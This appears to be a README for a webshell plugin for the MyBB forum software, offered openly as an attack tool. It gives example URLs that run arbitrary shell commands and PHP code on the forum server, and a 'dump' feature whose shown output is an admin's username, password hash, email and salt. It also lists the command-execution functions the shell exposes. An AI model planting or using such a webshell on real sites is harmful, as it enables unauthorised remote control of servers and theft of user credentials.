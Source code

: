 # MyBB-Shell-Plugin
MyBB Webshell Plugin

A plugin coded to be compatible with any version of MyBB *


A simple PHP webshell:
  After Activation:
    http://127.0.0.1/mybb/?cmd=FUNCTION&command=COMMAND
    
  Examples:
  
    http://127.0.0.1/mybb/?cmd=shell_exec&command=whoami
    http://127.0.0.1/mybb/?cmd=eval&command=phpinfo();
    
Features:

  http://127.0.0.1/mybb/?cmd=dump
  
  Admin Dumped:
1:admin:3052f668213bed7aef217c38683b94ab:admin@admin.com:aFmLOO6M

Current functions:

shell_exec,
passthru,
exec,
system,
popen,
proc_open,
eval,
assert,
pcntl_exec,
``
  

